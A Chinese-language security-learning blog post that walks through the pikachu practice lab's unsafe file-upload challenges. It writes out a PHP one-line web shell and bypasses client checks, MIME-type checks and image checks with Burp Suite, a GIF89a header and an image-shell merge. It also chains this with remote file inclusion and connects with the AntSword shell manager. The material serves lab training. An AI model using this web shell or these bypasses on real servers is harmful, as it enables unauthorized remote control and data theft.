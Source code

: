 ```yaml
---
title: 网络安全学习-文件上传
tags:
  - 网络安全
readmore: true
date: 2023-02-20 11:30:26
updated: 2023-02-20 11:30:26
---
```


文件上传本身是指一个功能，比如用户可以上传头像、上传资料等。如果能够上传文件，则可能存在文件上传的漏洞。

任意文件上传漏洞的产生需要满足三个条件：

1. 文件能被上传；
2. 文件能被服务器解析 (上传的文件能够被当作后端脚本处理)；
3. 能访问的到上传的文件，如果访问不到，则无法对文件进行控制，也就没有漏洞的说法。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### client check

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> client check；

#### 测试漏洞

首先我们上传一张普通的图片，可以看到提示 “文件上传成功”，并显示了文件保存的路径，这里将返回的路径与 pikachu 靶场的路径进行拼接，可以成功的访问到图片。

```bash
http://192.168.31.195/pikachu/vul/unsafeupload/uploads/avatar.jpg
```

#### 绕过漏洞

创建一个 "shell.php" 的文件，作为我们一会将要上传的一句话木马文件。

```php
<?=eval($_POST['cmd']);?>
```

此时在靶场中直接选中该文件，会弹出提示框说文件不符合要求；通过 burp suite 也能发现网站没有发送请求，所以得出结论是在前端(客户端)进行的验证。

F12 或者在网站空白处右键检查；发现表单处调用了 JavaScript 函数，这里直接给它删除掉再次上传即可上传成功。

![](http://pic.mewhz.com/blog/1-fileUpload.png)

#### 利用漏洞

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](http://pic.mewhz.com/blog/rce-1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](http://pic.mewhz.com/blog/2-fileUpload.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](http://pic.mewhz.com/blog/3-fileUpload.png)

![](http://pic.mewhz.com/blog/4-fileUpload.png)

---

### MIME type

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> MIME type；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马文件，发现要求了上传的文件格式，此时打开 burp suite 抓取请求，

将抓到的请求右键 ”Send to Repeater“，发送到请求模块，修改请求头中的内容类型；

![](http://pic.mewhz.com/blog/5-fileUpload.png)

把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**

通过此方法欺骗服务端，让服务端认为用户上传的是一张图片。

**MIME type** ：(现在称为“媒体类型 (media type)”，但有时也是“内容类型 (content type)”)是指示文件类型的字符串，与文件一起发送(例如，一个声音文件可能被标记为 `audio/ogg` ，一个图像文件可能是 `image/png` )。它与传统 Windows 上的文件扩展名有相同目的。

#### 利用漏洞

上传成功后，使用上述蚁剑的连接的方法访问后台。

---

### getimagesize

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> getimagesize；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马，发现同样要求了文件后缀名格式；

##### 修改请求头

1. 同样使用 burp suite 抓包，这次除了修改请求头中的内容类型，还要修改文件的后缀名以及文件的内容；

2. 修改内容类型：把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**；

3. 修改文件后缀名，同样可以直接在上传之前进行修改：

   ![](http://pic.mewhz.com/blog/6-fileUpload.png)

4. 在文件内容的首部加上 "GIF89a"，代表该文件是 GIF89a 格式的文件：

   ![](http://pic.mewhz.com/blog/7-fileUpload.png)

5. 上传后成功显示文件的上传路径；

##### 制作图片木马

1. 选择一张可以正常显示的图片，并在该位置打开命令行；

2. 输入如下命令

   ```bash
   copy avatar.jpg/b+shell.php/a 1.jpg
   # copy 将一个或多个文件复制到其他位置
   # 第一个参数指定要复制的文件
   # /b 表示二进制文件
   # + 代表合并文件
   # /a 表示 ASCII 文件
   # 第二个参数指定新文件的文件名和路径
   ```

3. 重新上传文件，并选择新生成的文件，此时返回的连接仅仅是一个图片链接，需要配合着文件包含漏洞共同使用；

4. 打开 pikachu 靶场中的 File Inclusion -> File Inclusion(remote)，选择一张图片并观察URL，文件包含使用 filename 作为参数名，此时 php 页面会将相应到的数据作为 php 脚本执行，修改后面的参数名，构成新的 URL 为：

   ```bash
   http://192.168.31.195/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.31.195/pikachu/vul/unsafeupload/uploads/2023/02/20/19834863f3222ca9c95014848861.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
   ```

#### 利用漏洞

最后依然是使用蚁剑进行连接，只不过 URL 是文件包含中构成的新 URL。



仅供学习交流使用~
